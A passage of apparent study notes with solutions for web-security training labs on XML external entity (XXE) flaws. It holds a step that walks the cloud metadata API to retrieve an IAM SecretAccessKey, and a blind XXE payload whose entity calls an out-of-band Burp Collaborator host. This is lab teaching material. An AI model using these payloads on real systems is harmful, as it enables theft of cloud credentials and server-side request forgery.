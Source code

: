                          Iteratively update the URL in the DTD to explore the API until you reach <code>/latest/meta-data/iam/security-credentials/admin</code>. This should return JSON containing the <code>SecretAccessKey</code>.
                    </li>
                </ol>
            </div>
        </div>




#### Blind XXE with out-of-band interaction

> This lab has a "Check stock" feature that parses XML input but does not display the result.
>
> You can detect the blind XXE vulnerability by triggering out-of-band interactions with an external domain.
>
> To solve the lab, use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator. 

<div class="component-solution is-expandable expanded">
            <h4>Solution<svg xmlns="http://www.w3.org/2000/svg" width="18" height="9" viewBox="0 0 18 9"><polygon points="17 -0.01 9 7.01 1 -0.01 0 1.09 9 8.99 18 1.09 17 -0.01"></polygon></svg></h4>
            <div>
                <ol>
                    <li>
                        Visit a product page, click "Check stock" and intercept the resulting POST request in Burp Suite Professional.
                    </li>
                    <li>
                        Go to the Burp menu, and launch the Burp Collaborator client.
                    </li>
                    <li>
                        Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard. Leave the Burp Collaborator client window open.
                    </li>
                    <li>
                        <p>
                            Insert the following external entity definition in between the XML declaration and the <code>stockCheck</code> element, but insert your Burp Collaborator subdomain where indicated:
                        </p>
                        <code class="code-scrollable">&lt;!DOCTYPE stockCheck [ &lt;!ENTITY xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"&gt; ]&gt;</code>
                    </li>
                    <li>
                        <p>
                            Replace the <code>productId</code> number with a reference to the external entity:
                        </p>
                        <code class="code-scrollable">&amp;xxe;</code>
                    </li>
                    <li>
                        Go back to the Burp Collaborator client window, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload.
                    </li>
                </ol>
            </div>
        </div>
